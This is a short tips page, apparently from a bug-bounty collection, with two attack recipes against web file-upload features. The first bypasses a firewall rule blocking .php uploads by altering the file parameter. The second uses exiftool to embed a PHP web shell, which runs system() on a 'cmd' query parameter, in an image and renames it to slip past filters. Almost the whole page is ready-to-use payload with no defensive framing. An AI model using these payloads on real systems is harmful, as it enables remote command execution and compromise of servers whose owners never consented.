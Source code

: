 # Tips

```markdown
WAF bypass Tips by 
@0xInfection
Case: File Upload (.php blocked)

/?file=xx.php    <- Blocked
/?file===xx.php  <- Bypassed

The file got uploaded successfully.
```

[https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium](https://pbs.twimg.com/media/EpkPLYXVgAMLhZa?format=jpg&name=medium)

```markdown
Bypass File Upload Filtering

In image :

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg 

mv shell.jpg  shell.php.jpg
```

[https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900](https://pbs.twimg.com/media/Eq9dOoaXUAAEE8n?format=jpg&name=900x900)

## Author:
[KathanP19](https://twitter.com/KathanP19)
